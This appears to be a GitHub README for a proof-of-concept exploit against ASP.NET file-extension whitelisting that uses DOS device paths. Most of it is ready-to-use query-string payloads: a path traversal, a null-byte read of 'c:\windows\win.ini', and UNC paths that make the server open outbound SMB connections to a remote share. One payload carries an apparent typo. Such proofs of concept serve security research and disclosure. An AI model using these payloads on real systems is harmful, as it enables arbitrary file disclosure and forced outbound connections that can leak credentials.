

# AspFileRead POC

A poc to bypass whitelisting of file extensions in asp.net.

By using DOS device paths https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#dos-device-paths, it is possible to read arbitrary files on the local file system.

## Example payloads

### Intended functionality

- `?file=data`

### Read secret in other folder same extension (md)
Read any file with `.md` file extension.

- `?file=file=..\secret\secret`	

### Read any file on local system
Read any file and due to the DOS device path enable the null character termination and bypass the `.md` file extension limitation.

- `?file=\\?\c:\windows\win.ini%00`	

### Making outbound SMB connections 
It is also possible to trigger the web application to make outgoing smb-calls by using payloads such as:

- `?file=\\.\UNC\server\share\file`	# will read `file.md` on the server share
- `?file=\\?\UNC\server\share\secret.txt%00`	# will read `secret.txt` on the server share

